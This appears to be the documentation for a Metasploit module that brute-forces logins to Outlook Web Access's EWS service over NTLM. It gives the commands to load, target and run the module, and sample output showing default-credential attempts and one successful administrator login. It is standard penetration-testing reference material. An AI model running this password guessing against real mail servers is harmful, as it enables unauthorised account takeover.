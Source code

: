 This module is for password guessing against OWA's EWS service which often exposes NTLM authentication over HTTPS. It is typically faster than the traditional form-based OWA login method.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/owa_ews_login```
2. Do: ```set RHOSTS [IP]```
3. Set TARGETURI if necessary.
4. Do: ```run```

## Sample Output

```
msf auxiliary(owa_ews_login) > run

[+] Found NTLM service at /ews/ for domain OWAMSF.
[+] OWA_EWS - Successful login: Administrator:monkey
[-] OWA_EWS - Failed login: root:
[-] OWA_EWS - Failed login: admin:
[-] OWA_EWS - Failed login: guest:
[-] OWA_EWS - Failed login: root:root
[-] OWA_EWS - Failed login: root:password
[-] OWA_EWS - Failed login: root:1234
```
